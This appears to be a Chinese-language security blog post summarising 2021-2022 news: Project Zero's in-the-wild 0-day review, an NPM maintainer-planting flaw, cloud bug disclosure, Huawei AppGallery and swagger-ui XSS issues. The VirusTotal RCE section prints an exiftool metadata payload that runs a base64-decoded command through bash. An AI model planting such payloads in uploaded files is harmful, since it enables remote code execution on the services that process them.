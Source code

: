 ```yaml
---
layout: article
title: Interesting news
mathjax: true
key: a00035
cover: /bkgs/3.jpg
modify_date: 2022-5-22
show_author_profile: true
excerpt_type: html
tag: 
- Msic
mode: immersive
header:
  theme: dark
article_header:
  type: overlay
  theme: dark
  background_color: '#203028'
  background_image:
    gradient: 'linear-gradient(135deg, rgba(34, 139, 87 , .4), rgba(139, 34, 139, .4))'
    src: /docs/assets/images/cover3.jpg
---
```


比较有意思的内容。之后应该会把有意思但比较零碎或不太成体系的放在这里？

一些比较有意思的内容。之后应该会把有意思但比较零碎或不太成体系的放在这里？

<!--more-->

# PZ 对2021年野外漏洞利用情况的总结分析

Project Zero认为2021的wild 0-day增加，原因应该归于**检测**和**披露**的增加（比2019多了一倍），而不是wild 0-day本身的增加

从利用技术和利用点来讲，与之前并没有很大的变化，只有两个有创新（58个中），大部分都是内存破坏漏洞（39个，即67%）

- 17个UAF
- 6个越界写/读
- 各4个，缓冲区溢出和整数溢出

2022的展望：

1. 成为行业标准，所有供应商都同意在其安全公告中披露漏洞的野生利用状态。
2. 供应商和安全研究人员共享漏洞利用示例或漏洞利用技术的详细描述
3. 继续共同努力减少内存损坏漏洞或使其无法利用

谈及0-day在野利用的时候，我们谈论的其实是0-day在野利用被**检测**和**披露**的那部分，

检测能力的提高，包括供应商自己研发的检测产品；披露很大程度上依靠的是供应商，研究者通常倾向于匿名提交漏洞。

问题

很多应该有漏洞披露的地方比如聊天软件并没有什么在野0-day漏洞披露，是未检测到？未披露？还是两者皆有？

已知的在野0-day都在使用已知的方式，是事实如此，还是说我们只检测了已知的呢？

漏洞成功利用需要两个条件，漏洞本身，及利用方式，文章本身只分析了漏洞本身（只有5个漏洞有公开的利用方式）



PZ的目标是迫使攻击者在每次他们的漏洞被检测到时都需要从头开始

尽管大部分人不会成为0-day的攻击目标，但0-day的攻击本身影响着我们所有人

2021展示出我们正朝着正确的道路进发，但是还需要继续努力

# NPM maintainer attack

这个月26号之前，任何人都可以在NPM包加上任何贡献者，并且不需要对方的同意。（算是上游供应链攻击？）

因此，上传一个NPM包，加入可信贡献者，然后删除自己，即可构造一个“可信“的NPM包。修复后需要贡献者同意才能添加。

https://blog.aquasec.com/npm-package-planting

# VT RCE

和去年年底的GitLab RCE有点类似，都利用了exiftool 

```
content: (metadata "\c${system('bash -c \"{echo,BASE64-ENCODED-COMMAND-TO-BE-EXECUTED }|{base64,-d }|{bash,-i }\" ; clear') };")
```

https://www.cysrc.com/blog/virus-total-blog/

# CVE-Like Cloud Bug System

可以和第一个结合着看

云厂商有时会悄悄修复云上的漏洞，并且不公开相关细节。

可以考虑比如先修，然后再通知到受影响的客户，使其能够知晓漏洞并做出相应的操作

有个有意思的问题，CVE识别规则只认终端用户和网络管理员可以直接管理的漏洞，但是云上漏洞属于厂商自己，现有CVE规则不太适用于云

https://threatpost.com/cve-cloud-bug-system/179394/

# 华为任意APP下载

利用似乎还蛮简单的？最后Timeline部分挺有意思

https://evowizz.dev/blog/huawei-appgallery-vulnerability

# swagger-ui XSS

比较老的问题，但是还有很多没修，问题主要出在过期的`DomPurify`，范围：>=3.14.1 < 3.38.0，升到4.13.0即可

https://www.vidocsecurity.com/blog/hacking-swagger-ui-from-xss-to-account-takeovers/